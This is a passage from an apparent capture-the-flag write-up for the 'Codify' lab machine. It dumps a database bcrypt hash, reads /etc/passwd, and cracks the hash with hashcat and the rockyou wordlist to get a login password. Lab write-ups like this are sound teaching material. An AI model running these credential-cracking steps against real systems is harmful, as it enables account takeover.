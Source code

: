 ```console
INSERT INTO users VALUES(3,'joshua','$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2');
CREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT);
INSERT INTO tickets VALUES(1,'Tom Hanks','Need networking modules','I think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!','open');
INSERT INTO tickets VALUES(2,'Joe Williams','Local setup?','I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.','open');
DELETE FROM sqlite_sequence;
INSERT INTO sqlite_sequence VALUES('users',3);
INSERT INTO sqlite_sequence VALUES('tickets',5);
COMMIT;
```
There is an hash of user `joshua` who is an user on the box.
```console
svc@codify:/var/www/contact$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
joshua:x:1000:1000:,,,:/home/joshua:/bin/bash
svc:x:1001:1001:,,,:/home/svc:/bin/bash
```
I'll crack the hash using `hashcat` and use the password over SSH.

```console
➜  codify hashcat hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode
    <SNIP>

The following 4 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce

    <SNIP>
```
It tired to match the hash but there are four options, I'll tried all of them but `3200` worked out.

```console
➜  codify hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting
    <SNIP>
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
    <SNIp>
```
The password is `spongebob1`.

### su / SSH

